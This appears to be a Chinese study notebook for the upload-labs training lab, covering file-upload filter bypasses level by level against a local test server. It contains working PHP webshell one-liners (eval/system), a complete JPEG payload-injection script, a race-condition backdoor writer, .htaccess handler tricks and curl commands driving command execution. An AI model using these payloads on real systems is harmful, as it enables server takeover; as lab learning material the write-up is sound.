

upload-labs学习笔记

# Pass-01-前端js校验

传php，前端提示只能是jpg png gif类型


然后我burp没抓到包，估计前端就处理了

F12，看上传按钮绑定了checkFile函数


找到该函数，复制到console，修改为支持php


修改，回车


然后上传yijuhua.php，成功


蚁剑连接，over


# Pass-02-后端检查Content-Type

php上传失败，提示文件类型不符合，盲猜是Content-type的问题

对比php和正常png


修改php包的content-type


看response包里的地址，../upload/yijuhua.php，上传成功了


看下源码，果然


# Pass-03-黑名单php3 phtml

传php，提示：不允许上传.asp,.aspx,.php,.jsp后缀文件！

看来是后端黑名单，试试看改成大写PHP或者大小写混合行不行——均不行，估计是后端验证程序扩展名，而且是小写化了的

burp抓包.php后面加空格也不行


用burp爆破.php扩展名，可以试试的有

```
php3
php5
phtml
phs
pht
```


php3解析成功


php5未解析


phtml解析成功


phs未解析


pht未解析


看博客，通常只要试试php3和phtml即可


看源码，还去掉了结尾空格，结尾点，扩展名大小写，::$DATA这4种绕过


稍等，yijuhua.php.aa可以吗

可以上传，但是无法解析，会取扩展名aa，然后重命名


# Pass-04-黑名单.htaccess

php不行，png行，估计是后端白名单

爆破下扩展名试试

搞错了，还是黑名单，把php3，phtml也屏蔽了


看博客说，上传一个.htaccess文件名的文件，内容为

```
SetHandler application/x-httpd-php
```


这是个局部解析，然后就可以用图片马了，txt马也可以，都会解析为php


看源码，里面过滤了这么多

```
$deny_ext = array(".php",".php5",".php4",".php3",".php2","php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2","pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf");
        
```

并且是把扩展名小写化了，过滤了PHP等变形


补充，由于没有重命名，php.aa也可以


# Pass-05-黑名单大小写绕过

.htaccess也不能传了，png，txt可以传

但意外的，PHP可以传了。。


看下源码


发现没有小写化，无法过滤PHP

上传后会重命名文件，所以.user.ini不能生效，会被随机为xxx.ini


# Pass-06-黑名单加空格

php，PHP，.htaccess不行

由于会重命名，.user.ini也不行，php.aa也不行


看04，05代码得知，遇到黑名单+重命名，还有这些方法

* 后缀大小写
* 后缀加.
* 后缀加空格
* 后缀加::$DATA
* （黑名单里收录的少就爆破后缀）

其实都是php后缀，可以用intruder通杀一下，再加上一个.htaccess


发现加空格的成功了


看源码发现没trim空格


# Pass-07-黑名单apache解析漏洞

php，PHP，htaccess不可以，txt可以，且没有重命名，想用.user.ini，能传，但没法解析，仔细看博客发现之前理解错了，首先得在这个目录下有一个php文件，才能利用.user.ini的包含把yijuhua.png包含进去


php加点成功


php.aa也可以


# Pass-08-黑名单加::$DATA

php等不行，会重命名，aa也不行


::$DATA行，但要注意url访问时把::$DATA去掉


否则会出现


php .


# Pass-09-黑名单后缀点空点 . .

被提示误导了，以为是白名单，然后传了个txt发现还是黑名单


用.php. .         用.php .不行，看源码吧


看源码，他的思路是

1. 文件名去掉首尾空格
2. 文件名去掉末尾的点
3. 利用最后一个点的位置得到扩展名
4. 扩展名小写，去掉扩展名里的::$DATA
5. 首位去空格

所以我们`yijuhua.php. .`      文件名是`yijuhua.php.空格 `      扩展名是点空格


# Pass-10-双写php绕过replace

传php竟然成功，然后发现变成了


看来是用了replace函数去掉了php

双写绕过，yijuhua.pphphp


看源码


其中的str_ireplace(find, replace, string, count)，会把string中的find全部替换为replace，find时不区分大小写，如果区分的话使用str_replace函数


# Pass-11-GET型%00

这次真的是白名单了

发现在url里有说法


看来会把文件校验后保存到save_path/file_name中去

那么修改一下POST的url，让他截断


传的后缀就用png，等会存到1.php里去


上传成功后发现src = /upload/1.php/xxx.png

直接去找php，成功


# Pass-12-POST型00截断save_path

还是白名单

发了个正常包，然后看到save_path的值会发出去为../upload/

那么考虑在这里hex00截断，改成../upload/3.php+，+替换成00

同时把filename改成png扩展名


成功


看下源码


file_ext根据白名单过滤剩下图片格式

然后通过POST里的save_path直接拼接出保存路径，重命名

move_uploaded_file的底层对于字符串会在00的位置截断


# Pass-13-图片马检查magic number

要求传图片马，并且可以被文件包含漏洞利用

copy命令即可，然后自己复制个include.php去upload目录，包含一下完事

``` php
<?php
/*
test pic trojan
*/
header("Content-Type:text/html;charset=utf-8");
$file = $_GET['file'];
if(isset($file)){
    include $file;
}else{
    show_source(__file__);
}
?>
```

完事


看下源码


就检查头2个字节


然后根据类型重新设置文件扩展名


# Pass-14-图片马getimagesize>=0

copy一样ok


看下源码


用了file_exists函数检查文件是否存在？（防止burp改名？）

然后获取扩展名，判断jpeg，gif，png是否存在于扩展名中

存在就上传


# Pass-15-类型检查exif_imagetype

同13

copy即可


看源码


用了exif_imagetype函数


isImage返回类型字符串，拼接重命名上传


# Pass-16-二次渲染

提示是二次渲染

## gif

传个gif图片马，发现连不上，下载回来一看末尾添加的一句话已经被删了，文件大小也缩了很多

尝试往不变的地方添加一句话，发现还是开头处有一串点，那里可以替换为一句话




上传后下回来，发现ok了没被删


## png

一个现成的png，原理是IDAT，内容是

```
<?=$_GET[0]($_POST[1]);?>
```

图片如下


用的办法比较复杂，需要使用这条命令

```
curl -i -X POST "http://192.168.189.128/upload/include.php?file=18200.png&0=shell_exec" -d "1=dir" --output cc.txt
```

解释一下，就是向目标`http://192.168.189.128/upload/include.php?file=18200.png`，把目标当成php包含，然后传递GET[0]=shell_exec，POST[1]=dir这两个参数，结果保存到本地cc.txt中


***


另一个原理是PLTE，内容是phpinfo

不知道怎么改


相关文章

https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

https://www.cnblogs.com/forforever/p/13191999.html

https://xz.aliyun.com/t/2657#toc-13


文件上传的配合


## jpg/jpeg

有国外大牛脚本，但不是都能插入成功，甚至被判定不是jpg文件格式，需要尝试不少图片，这个图是成功率比较高的，但payload不能随便改


这个地址上的payload_1.jpg可以过二次渲染，并且触发phpinfo

https://github.com/99gg/jpg_payload_back


效果如下


用这个地址上的脚本，针对上传一次后的月球图片，可以成功

https://github.com/BlackFan/jpg_payload/blob/master/jpg_payload.php


原图片为


但这个图片不能直接改，否则上传时会报不是jpg

先传一下1.jpg，得到下面这个图片（文件缩小了）


然后再运行脚本，脚本内容为

```php
<?php
	/*
	The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations
	caused by PHP functions imagecopyresized() and imagecopyresampled().
	It is necessary that the size and quality of the initial image are the same as those of the processed
	image.
	1) Upload an arbitrary image via secured files upload script
	2) Save the processed image and launch:
	php jpg_payload.php <jpg_name.jpg>
	In case of successful injection you will get a specially crafted image, which should be uploaded again.
	Since the most straightforward injection method is used, the following problems can occur:
	1) After the second processing the injected data may become partially corrupted.
	2) The jpg_payload.php script outputs "Something's wrong".
	If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another 
	initial image.
	Sergey Bobrov @Black2Fan.
	See also:
	https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
	*/

	$miniPayload = '<?=system($_GET[c]);?>';
	/*$miniPayload = '<?=`$_POST[c]`?>';*/
	
	if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
    	die('php-gd is not installed');
	}
	
	if(!isset($argv[1])) {
		die('php jpg_payload.php <jpg_name.jpg>');
	}

	set_error_handler("custom_error_handler");

	for($pad = 0; $pad < 1024; $pad++) {
		$nullbytePayloadSize = $pad;
		$dis = new DataInputStream($argv[1]);
		$outStream = file_get_contents($argv[1]);
		$extraBytes = 0;
		$correctImage = TRUE;

		if($dis->readShort() != 0xFFD8) {
			die('Incorrect SOI marker');
		}

		while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
			$marker = $dis->readByte();
			$size = $dis->readShort() - 2;
			$dis->skip($size);
			if($marker === 0xDA) {
				$startPos = $dis->seek();
				$outStreamTmp = 
					substr($outStream, 0, $startPos) . 
					$miniPayload . 
					str_repeat("\0",$nullbytePayloadSize) . 
					substr($outStream, $startPos);
				checkImage('_'.$argv[1], $outStreamTmp, TRUE);
				if($extraBytes !== 0) {
					while((!$dis->eof())) {
						if($dis->readByte() === 0xFF) {
							if($dis->readByte !== 0x00) {
								break;
							}
						}
					}
					$stopPos = $dis->seek() - 2;
					$imageStreamSize = $stopPos - $startPos;
					$outStream = 
						substr($outStream, 0, $startPos) . 
						$miniPayload . 
						substr(
							str_repeat("\0",$nullbytePayloadSize).
								substr($outStream, $startPos, $imageStreamSize),
							0,
							$nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
								substr($outStream, $stopPos);
				} elseif($correctImage) {
					$outStream = $outStreamTmp;
				} else {
					break;
				}
				if(checkImage('payload_'.$argv[1], $outStream)) {
					die('Success!');
				} else {
					break;
				}
			}
		}
	}
	unlink('payload_'.$argv[1]);
	die('Something\'s wrong');

	function checkImage($filename, $data, $unlink = FALSE) {
		global $correctImage;
		file_put_contents($filename, $data);
		$correctImage = TRUE;
		imagecreatefromjpeg($filename);
		if($unlink)
			unlink($filename);
		return $correctImage;
	}

	function custom_error_handler($errno, $errstr, $errfile, $errline) {
		global $extraBytes, $correctImage;
		$correctImage = FALSE;
		if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
			if(isset($m[1])) {
				$extraBytes = (int)$m[1];
			}
		}
	}

	class DataInputStream {
		private $binData;
		private $order;
		private $size;

		public function __construct($filename, $order = false, $fromString = false) {
			$this->binData = '';
			$this->order = $order;
			if(!$fromString) {
				if(!file_exists($filename) || !is_file($filename))
					die('File not exists ['.$filename.']');
				$this->binData = file_get_contents($filename);
			} else {
				$this->binData = $filename;
			}
			$this->size = strlen($this->binData);
		}

		public function seek() {
			return ($this->size - strlen($this->binData));
		}

		public function skip($skip) {
			$this->binData = substr($this->binData, $skip);
		}

		public function readByte() {
			if($this->eof()) {
				die('End Of File');
			}
			$byte = substr($this->binData, 0, 1);
			$this->binData = substr($this->binData, 1);
			return ord($byte);
		}

		public function readShort() {
			if(strlen($this->binData) < 2) {
				die('End Of File');
			}
			$short = substr($this->binData, 0, 2);
			$this->binData = substr($this->binData, 2);
			if($this->order) {
				$short = (ord($short[1]) << 8) + ord($short[0]);
			} else {
				$short = (ord($short[0]) << 8) + ord($short[1]);
			}
			return $short;
		}

		public function eof() {
			return !$this->binData||(strlen($this->binData) === 0);
		}
	}
?>

```


下面这个图片可以过二次渲染，内容是system($_GET[c])


上传后的图片为


效果图（图片名字改了）


我改了一下，可以接POST型的系统调用，原图片也只能用月球图片

这个图可以过二次渲染，内容是

```
<?=`$_POST[c]`?>
```

使用命令为

``` 
curl -i -X POST "http://192.168.189.128/upload/include.php?file=19765.jpg" -d "c=dir" -o result.txt
```


图片马为


上传后的图片为


# Pass-17-条件竞争

提示要审计代码，看源码


他是先用move_uploaded_file函数上传，然后才检测是否合法，不合法就删除


我们可以用条件竞争，即在他还没删掉前去访问上传的writephp.php文件，从而让writephp.php解析一次，执行的内容是将一句话写入新文件info.php，然后info.php就被曲线救国“上传”成功了


writephp.php内容如下

```php
<?php fputs(fopen("info.php", "w"), '<?php @eval($_POST["x"]);?>'); ?>
```


需要用burp的intruder模块，一个负责上传writephp.php，一个负责访问writephp.php


抓两个原始包，改一下

这个负责上传


这个负责访问


添加一个变量去爆破，payload设置如下


线程设置如下，都20个线程


然后开始爆破，下面是结果，左边上传，右边访问，访问的出现status=200就是成功访问到了（解析了，执行了）


然后看下upload文件夹，info.php成功制造


完成


# Pass-18-条件竞争+apache解析漏洞

需要先改下源码，Pass-18/index.php，添加 . '/'  不然文件会传到WWW目录下而不是upload目录下


看提示是代码审计，允许的后缀是这些


去apache的config路径下看mime.types文件，发现apache对7z不识别，可以考虑用解析漏洞，传一个writephp.php.7z上去访问即可解析


看下面代码，其实也是条件竞争，但是我只一直发上传包也是可以上传成功的（文件名是writephp.php.7z），我估计是多个并发上传时哪里出了问题


分析一下爆破结果，包的结果有3种

1. 上传成功并重命名
2. 上传成功但没有重命名
3. 无法复制到目标目录


没理解第一次成功的时候是怎么成功的。。


# Pass-19-自定义保存文件名+黑名单

上传文件，可以指定文件名，比如upload-19.jpg，那么试试保存为php行吗，发现不行

改下包，保存名改为phppng.php.7z，发现可以了，看来是对这个保存名进行黑名单限制


再试试发现连对传的文件内容都没限制，txt都行


看下源码，确实，黑名单那一套都能拿来用，就不一一列举了


# Pass-20-POST定义关联数组

审计源码


理一下逻辑

1. 检查文件类型
2. save_name不为空，file取save_name，为空取upload_file的name
3. 如果$file不是数组，就用explode将他按点打散成数组

那么这里如果$file是一个数组，那就不用打散了，这是关键

我们可以控制save_name这个数组（关联数组）

继续往下看


end(file)要求是jpg，png，gif

$file_name = reset($file) . $file[count($file)-1]，这里是把file当作数值数组来看待的，但如果file是关联数组，$file[count($file)-1]可以控制一下，比如

file[0] = whale

file[1]不传

file[2] = php

file[3] = jpg

这样的话，end(file) = jpg，count(file)=3，file[count-1] = file[2] = php，file_name = whale.php，就完事了


结果


参考这篇文章里的图

https://xz.aliyun.com/t/4029#toc-16


和他的复现，他的思路是

file[0] = up.php/

file[1]为空

file[2] = jpg

然后拼接出来的文件名是 up.php/.

然后move_upload_file的时候会忽略 斜杠点，就可以传up.php了


结果


# 总结

文件上传，先看有无前端校验

然后看burp包的结构，以及页面结果

先试试传php，以及php的各种变体，php.aa，php.7z，PHP，php空格，php3，phtml，php::$DATA，php点空格点

传图片马，后缀为png的，copy出来的，真图片马

最后考虑条件竞争，代码审计等


附一张先知社区的图，来源 https://xz.aliyun.com/t/4029#toc-12


